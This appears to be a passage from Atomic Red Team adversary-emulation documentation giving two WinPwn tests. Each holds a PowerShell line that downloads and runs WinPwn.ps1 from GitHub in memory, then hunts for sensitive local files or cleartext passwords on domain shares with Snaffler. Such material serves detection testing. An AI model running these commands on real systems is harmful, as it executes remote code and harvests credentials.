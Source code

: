 




<br/>
<br/>

## Atomic Test #7 - WinPwn - sensitivefiles
Search for sensitive files on this local system using the SensitiveFiles function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 114dd4e3-8d1c-4ea7-bb8d-8d8f6aca21f0






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
sensitivefiles -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - Snaffler
Check Domain Network-Shares for cleartext passwords using Snaffler function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** fdd0c913-714b-4c13-b40f-1824d6c015f2






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Snaffler -noninteractive -consoleoutput
```





